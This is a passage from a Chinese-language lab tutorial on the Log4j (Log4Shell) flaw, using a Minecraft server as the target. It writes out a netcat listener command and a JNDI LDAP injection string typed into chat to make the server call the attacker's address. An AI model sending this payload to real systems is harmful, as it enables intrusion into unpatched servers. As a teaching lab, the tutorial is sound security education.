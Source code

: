 我们用 Minecraft 服务器做实验，因为 Minecraft 用 Java 写的，使用了有漏洞的 Log4j；聊天消息会被记录到日志中；容易演示攻击过程

**网络结构：**

- 攻击者电脑（Kali）：1.1.1.1
- 目标服务器（Ubuntu）：2.2.2.2（运行 Minecraft）
- 防火墙：3.3.3.3

<img src="log4j/image-20250902223922659.png" alt="image-20250902223922659" style="zoom: 50%;" />

### 第一步：确认漏洞存在

**攻击者操作：**

1. 在自己电脑上开启监听：`nc -lnvp 443`（等着接电话）
2. 在 Minecraft 聊天框输入：`${jndi:ldap://1.1.1.1:443/test}`
3. 按回车发送

**发生了什么：**

```
Minecraft服务器 → Log4j处理聊天消息 → 发现JNDI指令 → 主动连接1.1.1.1:443
```

**结果：** 攻击者的监听器收到连接！说明服务器确实有漏洞。

**用人话说：** 就像你在日记本写"去${某个地址}拿东西"，日记本居然真的跑去那个地址了！
